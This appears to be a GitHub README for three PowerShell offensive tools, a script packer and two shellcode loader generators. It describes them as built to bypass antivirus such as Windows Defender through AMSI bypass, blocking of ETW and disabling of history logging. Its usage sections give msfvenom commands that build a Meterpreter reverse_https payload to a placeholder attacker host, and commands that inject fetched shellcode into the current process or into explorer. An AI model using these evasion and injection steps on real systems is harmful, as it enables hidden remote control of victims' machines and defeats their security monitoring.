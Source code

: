 --------------------------------------
### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' is a simple PowerShell script packer that aims to bypass AV solutions such as Windows Defender.

> Features
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  
> Usage
  - Import-Module ./Invoke-PoSH-Packer.ps1
  - Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
  Or  
  - Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1

> License
  - GNU General Public License v3.0

--------------------------------------
### Invoke-PoSH-ShellCodeLoader1.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader1' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellode loader script that will inject the shellcode into the current process's virtual address space.  
The shellcode needs to be generated with the format 'ps1' (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)

> Features
  - Shellcode injection into the memory of the current process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage (examples)
  - msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o Shellcode
  - Import-Module ./Invoke-PoSH-ShellCodeLoader1.ps1
  - Invoke-PoSH-ShellCodeLoader1 -FileUrl https://URL/shellCode -OutFile C:\path\Packed-ShellCodeLoader.ps1  
  Or  
  - Invoke-PoSH-ShellCodeLoader1 -FilePath C:\path\shellCode -OutFile C:\path\Packed-ShellCodeLoader.ps1
  
> License
  - GNU General Public License v3.0

--------------------------------------
### Invoke-PoSH-ShellCodeLoader2.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader2' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellode loader script that will inject the shellcode into a target process's virtual address space.  
The shellcode needs to be generated with the format 'ps1' (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)

> Features
  - Shellcode injection into the memory of a target process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage (examples)
  - msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o Shellcode
  - Import-Module ./Invoke-PoSH-ShellCodeLoader2.ps1
  - Invoke-PoSH-ShellCodeLoader2 -FileUrl https://URL/shellCode -TargetProcess explorer -OutFile C:\path\Packed-ShellCodeLoader.ps1  
  Or  
  - Invoke-PoSH-ShellCodeLoader2 -FilePath C:\path\shellCode -TargetProcess explorer -OutFile C:\path\Packed-ShellCodeLoader.ps1

> License
  - GNU General Public License v3.0
